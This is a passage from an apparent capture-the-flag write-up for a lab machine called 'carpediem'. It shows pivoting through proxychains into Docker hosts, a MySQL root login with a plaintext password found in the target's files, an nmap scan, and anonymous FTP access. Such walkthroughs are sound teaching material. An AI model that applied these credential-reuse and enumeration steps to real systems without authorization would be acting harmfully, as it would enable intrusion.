 ```bash
+----+-----------+----------+--------+------------------------+----------+----------------------------------+---------+-----------------------------------+------------+------------+---------------------+---------------------+
```

Unfortunately we're not able to crack the hash using hashcat. 

Lets test the other set of credentials found in `/usr/bin/env`, we don't have a username so I'm guessing it's default `root`:
```bash
➜  carpediem proxychains mysql -h 172.17.0.3 -P 3306 -u root -p
Enter password: 3dQXeqjMHnq4kqDv

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| portal             |
| sys                |
+--------------------+
```

We find the same set of databases, so there's really no need to continue enumerating here.


### Step 4
Continue to enumerate the surrounding docker addresses for any more hints.

**172.17.0.2:**
```bash
➜  carpediem proxychains nmap -sT --top-port=200 --open 172.17.0.2
PORT    STATE SERVICE
21/tcp  open  ftp
80/tcp  open  http
443/tcp open  https
```

Trying to access the FTP server we're able to login with `anonymous:anonymous` but we can't list any content:
```bash
➜  carpediem proxychains ftp 172.17.0.2
ftp> dir
500 Illegal PORT command.

ftp> pass
Passive mode: on; fallback to active mode: on.

ftp> dir
227 Entering Passive Mode (172,17,0,2,31,233).
[proxychains] Strict chain  ...  127.0.0.1:5000  ...  172.17.0.2:8169  ...  OK
150 Here comes the directory listing.
```
